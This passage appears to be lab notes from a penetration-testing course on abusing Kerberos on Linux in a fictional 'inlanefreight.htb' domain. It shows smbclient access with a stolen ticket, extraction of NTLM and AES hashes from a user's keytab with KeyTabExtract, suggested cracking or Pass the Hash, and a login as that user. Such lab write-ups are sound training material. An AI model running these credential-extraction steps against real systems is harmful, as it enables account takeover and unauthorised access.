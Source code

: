 We can attempt to access the shared folder `\\dc01\carlos` to confirm our access.
#### Connecting to SMB Share as Carlos
```shel;
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022
```

**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.

### KeyTab Extract
The second method we will use to abuse Kerberos on Linux is extracting the secrets from a keytab file. We were able to impersonate Carlos using the account's tickets to read a shared folder in the domain, but if we want to gain access to his account on the Linux machine, we'll need his password.

We can attempt to crack the account's password by extracting the hashes from the keytab file. Let's use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type `.keytab` files, which may be used to authenticate Linux boxes to Kerberos. The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

#### Extracting KeyTab hashes with KeyTabExtract
```shell
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

**Note:** A KeyTab file can contain different types of hashes and can be merged to contain multiple credentials even from different users.

The most straightforward hash to crack is the NTLM hash. We can use tools like [Hashcat](https://hashcat.net/) or [John the Ripper](https://www.openwall.com/john/) to crack it. However, a quick way to decrypt passwords is with online repositories such as [https://crackstation.net/](https://crackstation.net/), which contains billions of passwords.

![[Pasted image 20251006205135.png]]

#### Log in as Carlos

```shell
david@inlanefreight.htb@linux01:~$ su - carlos@inlanefreight.htb
```
```shell
carlos@inlanefreight.htb@linux01:~$ klist 
Ticket cache: FILE:/tmp/krb5cc_647402606_ZX6KFA
Default principal: carlos@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 11:01:13  10/07/2022 21:01:13  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 11:01:13
```
